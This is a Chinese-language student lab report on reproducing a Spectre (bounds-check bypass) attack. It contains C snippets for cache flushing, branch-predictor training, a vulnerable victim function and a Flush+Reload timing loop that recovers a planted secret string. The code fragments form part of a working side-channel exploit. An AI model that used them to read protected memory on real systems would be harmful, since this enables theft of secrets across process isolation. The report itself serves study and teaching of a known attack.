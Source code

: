 # Spectre 攻击验证

> 刘铠铭 2020030014 计14

## 实验原理

为了改善指令流水线的流程，CPU 会执行分支预测的优化技术。然而由于在预测失败时 CPU 不会恢复缓存状态，因此我们可以利用分支预测技术读取敏感信息，并且通过缓存侧信道泄露出来。

## 环境配置

1. WSL2 Ubuntu22.04LTS
2. Intel i7-10875H

## 实验流程

### 准备阶段

1. 确定边界外的 x 值，即 malicious_x，使得 spy[x] 可以将所需 byte 读入缓存中；
   - `size_t malicious_x = (size_t)(secret - (char *)spy);`
   - `malicious_x++`
2. 使 spy_size 和 cache_set 均不在 cache 中，使 x 在 cache 中；
   -  ```c
      for (int i = 0; i < 256; i++) {
          _mm_clflush(&cache_set[i * CACHE_LINE_SIZE]);
      }
      ...
      _mm_clflush(&spy_size);
      ```
3. 通过执行 5 次分支预测成功的情况（即 x < 16），使分支预测器总是会预测为 taken。
   -  ```c
      // 使用位运算，实现 x 训练 5 次，攻击 1 次
      // 避免使用 if 导致 branch prediction
      x = ((i % 6) - 1) & ~0xFFFF;
      x = (x | (x >> 16));
      x = training_x ^ (x & (malicious_x ^ training_x));
      
      victim_function(x);
      ```

### 攻击阶段

1. 设置 x = malicious_x；
2. 执行 victim_function(x)，该过程中分支预测器会读取 secret byte 加入预先设定的缓存驱逐集 cache_set 中。
  - 执行代码包含在【准备阶段-3】中，不再赘述；
  - ```c
    void victim_function(size_t x) {
        if (x < spy_size) {
            temp &=
                cache_set[spy[x] *
                          CACHE_LINE_SIZE]; // 将 cache_set 数组中的数据读取到缓存中
        }
    }
    ```

### Flush & Reload 阶段

1. 遍历访问 0 - 255 个字节，通过计算读取时间来判断该字节的内容是否在 cache 中，若在则令 result[i]++；
   -  ```c
      for (int i = 0; i < 256; i++) {
          int mix_i = ((i * 167) + 13) &
                      255; // 乱序遍历 0-255， 防止 stride prediction
      
          addr = &cache_set[mix_i * CACHE_LINE_SIZE];
          time1 = __rdtscp(&junk);
          junk = *addr; // 访问 cache_set 数组中的数据
          time2 = __rdtscp(&junk) - time1;
      
          // 如果访问时间小于阈值，说明访问的数据在缓存中
          if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[training_x]) {
              results[mix_i]++;
          }
      }
      ```
2. 重复上述内容 1000 次，选择最大的 result 值，其即为 secret byte。
   -  ```c
      int max = -1;
      for (int i = 0; i < 256; i++) {
          if (max < 0 || results[i] >= results[max]) {
              max = i;
          }
      }
      ```

## 实验结果

![image-20230507165005867](..\images\image-20230507165005867.png)

待窃取信息为预先插入的 'You should not be able to read this.'，攻击程序可以通过 Spectre Attack 得到秘密信息，并输出每个字符的正确率。

## 影响因素分析

本实验存在失败情况，其失败可能是由于以下因素：
- 未创造合适的攻击条件（代码构建失败）：
  - 构建测信道攻击数组时每个“单位长度”小于一个片；
  - 代码被编译器优化，如 stride prediction 等。
- 处理器微代码更新；
- 硬件隔离技术或软件隔离技术。

在所述实验环境下，该实验均可完成攻击。

## 完整代码

完整代码请参考 https://cloud.tsinghua.edu.cn/d/1a96b198a593475abf7f/

## 参考资料

- 《网络空间安全原理与实践》
-  [Spectre Attack Example](https://github.com/Eugnis/spectre-attack)
-  [Meltdown and Spectre](https://meltdownattack.com/)